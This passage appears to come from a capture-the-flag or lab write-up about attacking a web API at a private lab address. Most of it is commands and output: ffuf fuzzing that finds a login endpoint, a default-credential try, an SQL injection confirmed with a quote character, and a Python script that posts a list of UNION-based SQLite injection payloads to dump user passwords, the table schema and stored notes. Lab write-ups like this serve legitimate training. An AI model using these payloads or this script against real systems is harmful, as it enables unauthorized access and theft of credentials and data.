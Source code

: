 ```
ffuf -u 'http://10.10.155.88/api/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -mc all -fs 233
```

```
login                   [Status: 405, Size: 178, Words: 20, Lines: 5]
```

Lets try default credentials.

```
curl -XPOST 'http://10.10.155.88/api/login' -d 'username=admin&password=admin'
```

```
"The username or password passed are not correct."
```

Lets confirm SQLi by adding a ':

```
curl -XPOST 'http://10.10.155.88/api/login' -d "username=test'&password=test"
```

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```

Time to leverage the hidden API we came across, which would help authenticate users. A simple python script running SQLi code would do the trick. You can find more information regarding the SQLi code from the following source: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

```
import requests
url = ' http://10.10.155.88/api/login'
ii = [
 "1' UNION SELECT username ,password FROM users order by id-- -",
 "1' UNION SELECT 1,group_concat(password) FROM users order by id-- -",
 "1' UNION select 1,tbl_name from sqlite_master -- -",
 "1' UNION SELECT NULL, sqlite_version(); -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'; -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'; -- -",
 "' UNION SELECT 1,notes FROM notes-- -"]
for i in ii:
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
```
